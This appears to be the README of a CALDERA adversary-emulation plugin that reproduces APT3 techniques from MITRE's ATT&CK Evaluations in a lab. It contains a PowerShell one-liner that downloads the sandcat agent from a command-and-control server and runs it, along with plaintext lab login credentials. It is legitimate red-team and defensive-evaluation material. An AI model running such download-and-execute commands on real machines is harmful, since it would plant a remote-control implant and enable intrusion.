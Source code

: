 # CALDERA plugin: Eval

## Overview

A plugin supplying CALDERA with the TTPs used within the ATT&CK Evaluations Round 1 (APT3).
For more information see https://attackevals.mitre.org/about-attack-evaluations.html

1. Plugin Installation
2. Lab Setup
3. Execution

## Installation
Clone the Eval plugin into the caldera/plugin directory
```commandline
git clone https://github.com/mitre-attack/evals_caldera.git
```
Add Eval plugin to CALDERA config `conf/local.yml`
```yaml
plugins:
  - evals_caldera
```

Fill out facts in `data/facts/` specific to your setup.

## Environment Setup
[Full Round 1 Environment](https://attackevals.mitre.org/methodology/round1/environment.html)

Minimum requirements:
- Initial host exists within a windows domain
- Remote shared drive is mounted

## Execution

Please read the [full documentation](https://github.com/mitre/caldera/wiki/Plugins-evals) for this plugin.

## Shire Mordor Environment Execution

For use within the [Shire Mordor environment](https://mordor.readthedocs.io/en/latest/mordor_shire.html) deploy 54ndc47 using the following PowerShell command: 
```commandline
$url="http://172.18.39.8:8888/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$output="C:\Users\Public\sandcat.exe";$wc.DownloadFile($url,$output);C:\Users\Public\sandcat.exe -server http://172.18.39.8:8888 -group evals_caldera -v;

```
Example execution within Shire:    

1) RDP to the public ip of IT001.shire.com. Login - Administrator:P1ls3n! and open up an admin CMD. Close out of the RDP sesion but do not logout the Administrator.    

2) RDP to the public ip of IT001.shire.com. Login - pgustavo:W1n1!2019 and open up an admin CMD and a non-admin PowerShell. Execute the PowerShell command from above. The 54ndc47 agent should now be checked in with CALDERA (172.18.39.8).

3) Browse to the CALDERA UI (http://caldera-public-ip:8888). Login - wardog:B3tt3r! and start an operation using the [ATT&CK Eval APT3 - Full](https://github.com/d4weiss/evals_caldera/blob/master/data/adversaries/ef93dd1b-809b-4a0b-b686-fef549cabbe4.yml) adversary profile.  



